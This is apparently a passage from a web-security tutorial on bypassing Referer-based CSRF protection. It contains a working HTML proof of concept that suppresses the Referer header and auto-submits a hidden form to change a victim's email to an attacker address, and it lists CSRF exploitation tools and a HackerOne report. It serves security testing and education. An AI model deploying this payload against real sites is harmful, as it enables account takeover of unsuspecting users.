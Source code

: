 **Developers think that it is not possible to send a request through a browser without a referer header.**

We can however craft a proof of concept that'd do just that, send a request without a referer header and bypass this anti-CSRF case:

```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <!-- Prevent referer header from being sent -->
    <meta name="referrer" content="no-referrer">
  </head>
  <body>
    <form action="https://app.example.com/api/profile/update" method="POST">
      <input type="hidden" name="new_email" value="attacker@example.com"/>
      <input type="submit" value="Submit request"/>
    </form>
    <script>history.pushState('','','/');document.forms[0].submit();</script>
  </body>
</html>
```

## Automated tooling

Testing all API endpoints and app routes for CSRF attacks can be a tedious task, especially in a complex web application. Automated tooling can help ease out this task, and often **with quite high accuracy as CSRF attacks are simple.**

Below are a few open-source tools listed that can help with automating CSRF attacks.

#### Bolt

Bolt is an automated CSRF exploitation tool developed in Python3. Bolt is equipped with a crawling engine and is capable of crawling your target.

[https://github.com/s0md3v/Bolt](https://github.com/s0md3v/Bolt)

#### XSRFProbe

XSRFProbe is an advanced CSRF exploitation toolkit. It is equipped with a crawling engine and is capable of performing extensive CSRF tests.

[https://github.com/0xInfection/XSRFProbe](https://github.com/0xInfection/XSRFProbe)

#### CSRF PoC Creator

CSRF PoC Creator is a Burpsuite extension that can help you generate proof of concepts from raw HTTP requests in Burpsuite. It is available for both the Community as well as the Professional edition of Burpsuite.

[https://github.com/rammarj/csrf-poc-creator](https://github.com/rammarj/csrf-poc-creator)

---

Report:  https://hackerone.com/reports/834366

---

https://anonysm.medium.com/bypassing-methods-that-i-used-to-find-csrf-vulnerabilities-b7dbf88cdb0a 


https://medium.com/@iPsalmy/exploiting-csrf-and-otp-reuse-how-weak-token-management-enables-password-reset-attacks-leading-to-c2f6b914f398

----
